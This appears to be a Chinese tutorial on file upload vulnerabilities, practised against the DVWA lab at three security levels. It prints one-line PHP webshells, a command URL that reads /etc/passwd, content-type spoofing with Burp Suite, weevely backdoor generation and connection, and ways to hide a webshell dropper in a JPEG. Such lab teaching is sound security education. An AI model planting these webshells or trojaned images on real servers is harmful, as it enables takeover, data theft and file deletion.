




# 文件上传漏洞

## 一、概述

1. 文件上传（File Upload）是大部分Web应用都具备的功能，例如用户上传附件、修改头像、分享图片/视频等
2. 正常的文件一般是文档、图片、视频等，Web应用收集之后放入后台存储，需要的时候再调用出来返回
3. 如果恶意文件如PHP、ASP等执行文件绕过Web应用，并顺利执行，则相当于黑客直接拿到了Webshell
4. 一旦黑客拿到Webshell，则可以拿到Web应用的数据，删除Web文件，本地提权，进一步拿下整个服务器甚至内网
5. SQL注入攻击的对象是数据库服务，文件上传漏洞主要攻击Web服务，实际渗透两种相结合，达到对目标的深度控制

> Webshell
> 小马： 一句话木马也称为小马，即整个shell代码量只有一行，一般是系统执行函数
> 大马： 代码量和功能比小马多，一般会进行二次编码加密，防止被安全防火墙/入侵系统检测到

```php
shell1.php   #eval 使用php函数，例如phpinfo(); <?php eval($_REQUEST['cmd']);?>    http://10.3.139.173/dvwa/hackable/uploads/shell2.php?cmd=phpinfo();

shell2.php   #system 使用Linux系统命令,例如ls,cp,rm <?php system($_REQUEST['cmd']);?> http://10.3.139.173/dvwa/hackable/uploads/shell3php?yangge=cat /etc/passwd
123
```

说明：REQUEST是在网页端输入变量访问，POST则是使用像中国菜刀之类的工具连接，是C/S架构。

## 二、任意文件上传

启动owasp


靶场DVWA

账户密码admin  admin

**安全级别：低**

上传php文件

```php
<?php @eval($_POST['caidao']);?>  // 一句话木马

```


查看后端源码

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?>
1234567891011121314151617181920
```

源码中没有对文件做任何限制，导致可以上传任何文件类型。

复制文件路径，查看上传的文件内容

`http://127.0.0.1/dvwa-master/hackable/uploads/shell.php`

使用菜刀连接




## 三、文件类型限制

**安全级别：中**

上传php文件

可以根据返回信息看到只支持上传图片格式
实际上是对文件类型做了限定
**上传一张正常可以通过的图片**
通过上传一张图片抓包查看`content-type:image/jpeg`

查看php源码

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?  这里对文件类型做了限定，只能上传jpeg/png类型的文件
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
12345678910111213141516171819202122232425262728293031323334
```

**上传php文件抓包查看**

这里我们通过burpsuite拦截数据包并将content-type类型修改为image/jpeg

在kali中打开火狐浏览器



默认选中的是


跟改为手动设置127.0.0.1


此时在点击upload页面报错了

在kali中打开burpsuite


点击next，在点击startburp


点击proxy 里面有个拦截 关掉 页面刷新就可以访问了



如果这样设置，外界也可以使用了，比如我们本机电脑的浏览器

修改本地火狐代理 ip为kali的ip  192.168.83.145：8080

选中shell.php 先打开拦截，此时是上传被拦截


之后点击forward按钮


回到浏览器上传成功

在靶机中删除上传文件/var/www/dvwa/hackable/uploads


上传成功！！！


weevely generate password/tmp/1.php #生成一个名为1.php的后门，密码为password

将此后门上传到网站，用weevely连接，连接后面直接跟上设置的密码

weevely <http://192.168.179.137/doyo/1.php> password

http://192.168.83.146/dvwa/vulnerabilities/upload/#

../../hackable/uploads/weeshell.php 

http://192.168.83.146/dvwa/vulnerabilities/upload/../../hackable/uploads/weeshell.php 

`#`删掉得到地址

http://192.168.83.146/dvwa/hackable/uploads/weeshell.php

```sh
weevely http://192.168.83.146/dvwa/hackable/uploads/weeshell.php caidao
```

进入交互窗口

```sh
cd /
dir
#显示服务器内部目录
cd /var/www/dvwa/hackable/uploads
:file_rm weeshelll.php

```


## 四、文件后缀名限制

**安全级别：高**
上传一句话图片木马【文件后缀限制】

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?  这里对文件的后缀名进行了限制
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
123456789101112131415161718192021222324252627282930313233343536
```

查看源码发现高安全级别模式下限制的是文件的后缀名而不是文件类型，所以通过修改文件类型是没有做用的。

图片木马
`<?fputs(fopen("shell.php","w"),'<?php eval($_POST[caidao]);?>')?>`

```shell
方法一：windows 命令: copy img.jpg/b+shell.php cshell.jpg
 
方法二：edjpgcom

mac   cat 2.jpeg shell.php > 1.jpeg
```

查看生成图片后的文件

一句话木马已经植入到图片中。
将已经植入木马的图片上传

访问显示正常

这里我们只是成功将带有木马的图片上传并访问到了这张图片，并没有执行图片中的代码，只有执行了图片中的代码生成一句话木马才可以用菜刀连接！！！

**如何执行图片中的代码在文件包含漏洞中进行实验！！！！**